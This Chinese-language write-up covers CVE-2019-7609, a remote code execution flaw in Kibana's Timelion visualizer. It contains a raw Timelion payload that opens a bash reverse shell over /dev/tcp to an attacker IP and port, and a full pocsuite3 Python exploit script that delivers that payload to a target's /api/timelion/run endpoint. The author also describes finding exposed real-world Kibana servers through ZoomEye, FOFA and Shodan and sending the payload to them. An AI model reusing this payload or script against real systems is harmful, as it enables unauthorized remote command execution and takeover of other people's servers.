

#### 0x01 漏洞概述

Elasticsearch Kibana是荷兰Elasticsearch公司的一套开源的、基于浏览器的分析和搜索Elasticsearch仪表板工具。
Kibana 5.6.15之前版本和6.6.1之前版本中的Timelion visualizer存在安全漏洞。
远程攻击者可通过发送请求利用该漏洞执行JavaScript代码并能以Kibana进程权限执行任意命令。

#### 0x02 影响版本

- ElasticSearch Kibana <5.6.15
- ElasticSearch Kibana <6.6.1

#### payload

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/IP/PORT 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

#### 复现详情

https://dylan903.coding.me/2019/10/20/kibana-rce-lou-dong-fu-xian/

https://github.com/jas502n/kibana-RCE

#### 我的复现
由于这个环境搭起来比较麻烦，所以，我暂且在网上找一些现成的环境进行复现（虽然最终也没有找到存在漏洞的环境，但是见识到真实环境的kibana比起看别人的复现文章要好一点），可以利用zoomeye或者fofa/shodan等网络空间搜索引擎搜索kibana,我这里找到几个版本符合要求的，且可以直接访问到kibana页面，不需要登录，界面如下



我这里发送payload就会报上图中的错误，可能是环境的问题

#### python_poc(基于pocsuite框架)

改编自网上现成的........
```python
#! python3
"""

@FileName: elasticsearch_kibana_rce.py
@Author: dylan
@software: PyCharm
@Datetime: 2019-10-20 15:23:54

"""
import re
from collections import OrderedDict
import json
import urllib.parse
from bs4 import BeautifulSoup
from pocsuite3.api import Output, POCBase, register_poc, requests, OptString, logger


class DemoPOC(POCBase):
    vulID = "CVE-2019-7609"  # ssvid ID 如果是提交漏洞的同时提交 PoC,则写成 0
    version = "3.0"  # 默认为1
    author = "dylan"  # PoC作者的大名
    vulDate = "2019/10/20"  # 漏洞公开的时间,不知道就写今天
    createDate = "2019/10/20"  # 编写 PoC 的日期
    updateDate = "2019/10/20"  # PoC 更新的时间,默认和编写时间一样
    references = ["https://github.com/jas502n/kibana-RCE"]  # 漏洞地址来源,0day不用写
    name = "elasticsearch_kibana_rce"  # PoC 名称
    appPowerLink = ""  # 漏洞厂商主页地址
    appName = "elasticsearch_kibana"  # 漏洞应用名称
    appVersion = "Kibana < 6.6.1,Kibana < 5.6.15"  # 漏洞影响版本
    vulType = "rce"  # 漏洞类型,类型参考见 漏洞类型规范表
    desc = """
        Need Timelion And Canvas
    """  # 漏洞简要描述
    samples = []  # 测试样列,就是用 PoC 测试成功的网站
    install_requires = []  # PoC 第三方模块依赖，请尽量不要使用第三方模块，必要时请参考《PoC第三方模块依赖说明》填写
    pocDesc = """
    pocsuite -r "elasticsearch_kibana_rce.py" -u 目标ip --ncip "监听ip" --ncport "监听端口"

    pocsuite -r "elasticsearch_kibana_rce.py" -u https://192.168.1.1 --ncip "192.168.1.1" --ncport "12345"
    """

    def _options(self):
        o = OrderedDict()
        o["ncip"] = OptString('', description='请输入监听服务器IP', require=True)
        o["ncport"] = OptString('', description='请输入监听服务器端口', require=True)
        return o

    def _verify(self):
        # 验证代码
        result = {}
        output = Output(self)
        kibana_path = self.url+"/app/kibana"
        path1 = self.url + "/app/timelion"
        print(path1)
        path2 = self.url + "/api/timelion/run"
        payload = {
            "sheet": [
                ".es(*).props(label.__proto__.env.AAAA='require(\"child_process\").exec(\"bash -i >& "
                "/dev/tcp/" + self.get_option("ncip") + "/" + self.get_option(
                    "ncport") + " 0>&1\");process.exit()//')\n.props("
                                "label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')"],
            "time": {"from": "now-15m", "to": "now", "mode": "quick", "interval": "auto",
                     "timezone": "Asia/Shanghai"}
        }
        resp = requests.get(kibana_path, verify=False, timeout=20)
        kbn_version = ''
        try:
            kbn_version = resp.headers['kbn-version']
        except Exception as e:
            logger.info(e)

        header = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0",
            'Accept': 'application/json, text/plain, */*',
            "Accept-Language": "zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3",
            "Accept-Encoding": "gzip, deflate",
            'Connection': 'close',
            'kbn-version': kbn_version,
            'Content-Type': 'application/json;charset=UTF-8'
        }

        respose2 = requests.post(path2, headers=header, data=json.dumps(payload), verify=False, timeout=30)
        # print(respose2.status_code)
        if respose2.status_code == 200 and 'invokeTime' in respose2.text:  # result是返回结果
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            result['VerifyInfo']['Referer'] = ""
        return self.parse_output(result)

    def _attack(self):
        # 攻击代码
        return self._verify()

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail("target is not vulnerable")
        return output


# 注册 DemoPOC 类
register_poc(DemoPOC)
```

